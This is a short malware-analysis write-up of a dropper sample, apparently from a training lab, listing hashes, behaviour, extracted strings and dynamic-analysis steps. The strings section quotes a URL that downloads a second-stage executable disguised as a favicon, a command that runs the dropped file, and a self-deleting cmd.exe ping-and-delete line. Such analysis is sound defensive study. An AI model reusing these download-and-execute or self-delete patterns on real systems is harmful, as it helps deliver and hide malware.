 
### Summary
#### Information
1. Name: Malware.Unknown.exe.malz
2. SHA256:  92730427321a1c4ccfc0d0580834daef98121efa9bb8963da332bfd6cf1fda8a
3. MD5: 1d8562c0adcaee734d63f7baaca02f7c

#### Behavior
1. Functions like a dropper
2. Attempts to connect to the internet and download a favicon which is most probably the second stage for this attack
3. The second stage is stored in disk as an executable


### Static Analysis
#### Interesting Strings
```bash
cmd.exe /C ping 1.1.1.1 -n 1 -w 3000 > Nul & Del /f /q "%s"
http://ssl-6582datamanager.helpdeskbros.local/favicon.ico
C:\Users\Public\Documents\CR433101.dat.exe
Mozilla/5.0
http://huskyhacks.dev
ping 1.1.1.1 -n 1 -w 3000 > Nul & C:\Users\Public\Documents\CR433101.dat.exe
open
C:\Users\Matt\source\repos\HuskyHacks\PMAT-maldev\src\DownloadFromURL\Release\DownloadFromURL.pdb

```


### Dynamic Analysis
1. On execution, it first connects to `Host: ssl-6582datamanager.helpdeskbros.local\r\n`
2. ![Pasted image 20240409213201](attachments/Pasted%20image%2020240409213201.png)
3. Downloads the favicon.ico and stores at `C:\Users\Public\Documents\CR433101.dat.exe`
4. ![Pasted image 20240409214834](attachments/Pasted%20image%2020240409214834.png)
5. If unable to download, delete executable from disk
6. ![Pasted image 20240409215701](attachments/Pasted%20image%2020240409215701.png)
